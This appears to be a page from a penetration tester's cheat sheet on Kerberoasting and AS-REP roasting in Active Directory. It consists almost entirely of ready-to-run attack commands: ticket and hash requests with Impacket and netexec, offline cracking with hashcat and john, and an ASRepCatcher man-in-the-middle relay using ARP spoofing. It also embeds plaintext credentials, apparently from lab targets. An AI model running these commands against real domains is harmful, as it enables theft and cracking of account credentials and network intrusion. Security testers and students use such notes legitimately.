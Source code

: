 ```yaml
---
title: "Kerberoast-Asreproast"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Kerberoasting

```sh
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t

GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter

GetUserSPNs.py -no-preauth "Asreproastable_User" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
#No_preauth_user=Kerberoastable user
proxychains -q nxc ldap 10.10.168.101 -u svc-web-accounting-d -p 'H3r0n2024#!' --kerberoasting output.txt
```

```sh
john --format=krb5tgs --wordlist= /usr/share/wordlists/rockyou.txt hash
hashcat -m 13100 kerberoastables.txt $wordlist
```

## Asreproasting

- Users list dynamically queried with an LDAP anonymous bind
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

- With a users file
```sh
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

- Users list dynamically queried with a LDAP authenticated bind (password)
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```

- Users list dynamically queried with a LDAP authenticated bind (NT hash)
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

- Netexec 
```sh
netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

- Crack
```sh
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
john --wordlist=$wordlist ASREProastables.txt
```

- MitM:

```sh
# Proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disables ARP spoofing (the MitM must be obtained with other means)
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passively listen for AS-REP packets, no packet alteration
ASRepCatcher listen
```